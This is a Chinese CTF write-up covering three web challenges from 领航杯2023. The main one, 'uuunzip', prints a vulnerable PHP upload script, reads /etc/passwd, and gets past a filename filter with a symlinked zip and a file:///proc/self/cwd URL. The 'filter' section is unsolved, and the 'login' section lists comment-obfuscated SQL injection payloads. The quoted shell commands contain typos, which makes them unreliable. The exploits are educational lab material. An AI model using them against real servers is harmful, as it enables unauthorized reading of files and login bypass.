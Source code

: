 # 领航杯2023

## uuunzip

注释给了`upload.php`：

```php
// upload.php
<?php
chdir('data');
if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file'])){
    if (file_exists($_GET['file']) and strpos(realpath($_GET['file']) ? : 'flag','flag') === false and strpos($_GET['file'],'flag') === false)
        echo file_get_contents($_GET['file']);
}
```

上传的zip解压到当前目录，然后GET传入文件名读取。`escapeshellarg`不是考点，暂时不用bypass，但好像还真有考点：[这个](https://www.mi1k7ea.com/2019/07/04/%E6%B5%85%E8%B0%88escapeshellarg%E4%B8%8E%E5%8F%82%E6%95%B0%E6%B3%A8%E5%85%A5/)和[这个](https://www.anquanke.com/post/id/107336)

直接读`/upload.php?file=/etc/passwd`可以，读`/proc/1/cmdline`，再读`/start.sh`，知道flag位于`/flag`，显然`environ`没权限。传入`file`参数中不能直接出现flag字样，可以使用软连接，上传的zip中包含指向`/flag`的symbolic link。但realpath函数会解析symlink。realpath函数在官方文档中：

>    **realpath**(string `$path`): string|false
>
>    **realpath()** expands all symbolic links and   resolves references to `/./`, `/../` and extra `/` characters in   the input `path` and returns the canonicalized   absolute pathname.    

软连接这里无法绕过。使用通配符也不行，但是不知道什么原因。

贴一份idawnlight的wp：

```shell
mkdir file:
cd file:
ln -s /flag meow
mkir -p proc/self/cwd/file:/
touch proc/self/cwd/qfile:/meow
cd ..
zip -ry file_flag.zip file:
```

上传后访问`/upload.php?file=file:///proc/self/cwd/file:/meow`即可。

zip构造完后目录结构如下：

![image-20230823193718052](https://github.com/local-h0st/CTF/blob/main/writeups/pics/lhb_01.png)

上传后会在`data`目录下解压出`file:`目录。访问`/upload.php?file=file:///proc/self/cwd/file:/meow`，`file_exists(file:///proc/self/cwd/file:/meow)`会按照`file://`协议解析绝对路径`/proc/self/cwd`就是当前进程`pwd`，也就是`data`目录，所以当前目录下`file:/meow`文件存在；`realpath(file:///proc/self/cwd/file:/meow)`不会解析协议，在当前目录下，最终会得到`/xxx/xxx/xxx/data/file:/proc/self/cwd/file:/meow`，文件也存在且不含flag字样；`strpos('file:///proc/self/cwd/file:/meow','flag')`则由于使用软连接指向`/flag`因此可以bypass。

其实是要想到，realpath对于正常路径是没问题，但是协议也用到了`/`符号，那realpath对于协议就可能直接当路径符号处理了。问了下idawnlight是怎么想到的，他说搜出来的：https://ctftime.org/writeup/31867

只能说多看看国外CTF文章，英文就英文



## filter

印象是`'php://filter/'.$input.'/resource=/dev/null'`，过滤了`/`，要求伪协议返回特定字符串。没一点思路



## login

做了点测试：

```
admin' UniO/**/N SElec/**/t 1,2,3 -- a

admin' o/**/rde/**/r b/**/y 3 -- a

pw

' uni/**/on sele/**/ct 'admin',66
' uni/**/on sele/**/ct 11,66
```

